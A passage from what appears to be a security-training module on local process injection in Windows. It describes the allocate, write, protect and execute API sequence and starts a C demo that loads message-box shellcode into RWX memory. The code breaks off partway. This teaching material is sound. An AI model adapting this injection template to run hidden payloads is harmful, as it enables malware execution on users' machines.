 ![Local Process Injection](https://academy.hackthebox.com/storage/modules/266/image17_.png)

The process first reserves memory space within its own address space using APIs like `VirtualAlloc()` or `NtAllocateVirtualMemory()`. Then, the malicious code, such as shellcode or a reflective DLL, is written into the allocated memory using functions like `memcpy()`, `WriteProcessMemory()`, `RtlCopyMemory()`, or `RtlMoveMemory()`. If the memory region doesn't have the permissions to execute the code, then the permissions are also modified using functions like `VirtualProtect()` or `NtProtectVirtualMemory()`, ensuring the injected code can run. Finally, the process executes the injected code through direct function calls, thread creation ( `CreateThread()`, `RtlCreateUserThread()`, `NtCreateThreadEx()`), or execution redirection techniques like `SetThreadContext()` and `QueueUserAPC()`. We will learn these techniques in later sections. For now, we'll understand a scenario of shellcode injection into the local process without accessing or creating a remote or new process.

## Source Code for Demo

To demonstrate local process injection, we have created a C program that performs a local process injection. Once the shellcode is written to the allocated memory region, a messagebox is displayed.

```c
#include <windows.h>
#include <stdio.h>

//Shellcode to show HelloWorld Message Box
unsigned char shellcode[] =
    "\x48\x83\xEC\x28\x48\x83\xE4\xF0\x48\x8D\x15\x66\x00\x00\x00"
    "\x48\x8D\x0D\x52\x00\x00\x00\xE8\x9E\x00\x00\x00\x4C\x8B\xF8"
    "\x48\x8D\x0D\x5D\x00\x00\x00\xFF\xD0\x48\x8D\x15\x5F\x00\x00"
    "\x00\x48\x8D\x0D\x4D\x00\x00\x00\xE8\x7F\x00\x00\x00\x4D\x33"
    "\xC9\x4C\x8D\x05\x61\x00\x00\x00\x48\x8D\x15\x4E\x00\x00\x00"
    "\x48\x33\xC9\xFF\xD0\x48\x8D\x15\x56\x00\x00\x00\x48\x8D\x0D"
    "\x0A\x00\x00\x00\xE8\x56\x00\x00\x00\x48\x33\xC9\xFF\xD0\x4B"
    "\x45\x52\x4E\x45\x4C\x33\x32\x2E\x44\x4C\x4C\x00\x4C\x6F\x61"
    "\x64\x4C\x69\x62\x72\x61\x72\x79\x41\x00\x55\x53\x45\x52\x33"
    "\x32\x2E\x44\x4C\x4C\x00\x4D\x65\x73\x73\x61\x67\x65\x42\x6F"
    "\x78\x41\x00\x48\x65\x6C\x6C\x6F\x20\x77\x6F\x72\x6C\x64\x00"
    "\x4D\x65\x73\x73\x61\x67\x65\x00\x45\x78\x69\x74\x50\x72\x6F"
    "\x63\x65\x73\x73\x00\x48\x83\xEC\x28\x65\x4C\x8B\x04\x25\x60"
    "\x00\x00\x00\x4D\x8B\x40\x18\x4D\x8D\x60\x10\x4D\x8B\x04\x24"
    "\xFC\x49\x8B\x78\x60\x48\x8B\xF1\xAC\x84\xC0\x74\x26\x8A\x27"
    "\x80\xFC\x61\x7C\x03\x80\xEC\x20\x3A\xE0\x75\x08\x48\xFF\xC7"
    "\x48\xFF\xC7\xEB\xE5\x4D\x8B\x00\x4D\x3B\xC4\x75\xD6\x48\x33"
    "\xC0\xE9\xA7\x00\x00\x00\x49\x8B\x58\x30\x44\x8B\x4B\x3C\x4C"
    "\x03\xCB\x49\x81\xC1\x88\x00\x00\x00\x45\x8B\x29\x4D\x85\xED"
    "\x75\x08\x48\x33\xC0\xE9\x85\x00\x00\x00\x4E\x8D\x04\x2B\x45"
    "\x8B\x71\x04\x4D\x03\xF5\x41\x8B\x48\x18\x45\x8B\x50\x20\x4C"
    "\x03\xD3\xFF\xC9\x4D\x8D\x0C\x8A\x41\x8B\x39\x48\x03\xFB\x48"
    "\x8B\xF2\xA6\x75\x08\x8A\x06\x84\xC0\x74\x09\xEB\xF5\xE2\xE6"
    "\x48\x33\xC0\xEB\x4E\x45\x8B\x48\x24\x4C\x03\xCB\x66\x41\x8B"
    "\x0C\x49\x45\x8B\x48\x1C\x4C\x03\xCB\x41\x8B\x04\x89\x49\x3B"
    "\xC5\x7C\x2F\x49\x3B\xC6\x73\x2A\x48\x8D\x34\x18\x48\x8D\x7C"
    "\x24\x30\x4C\x8B\xE7\xA4\x80\x3E\x2E\x75\xFA\xA4\xC7\x07\x44"
    "\x4C\x4C\x00\x49\x8B\xCC\x41\xFF\xD7\x49\x8B\xCC\x48\x8B\xD6"
    "\xE9\x14\xFF\xFF\xFF\x48\x03\xC3\x48\x83\xC4\x28\xC3";

int main() {
    DWORD pid = GetCurrentProcessId();
    printf("\n[+] Current process ID: %lu\n", pid);

    LPVOID lpAlloc = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    if (lpAlloc == NULL) {
        printf("VirtualAlloc failed\n");
        return 1;
    } else {
        printf("\n[+] Allocated memory locally in address : 0x%p\n", lpAlloc);
```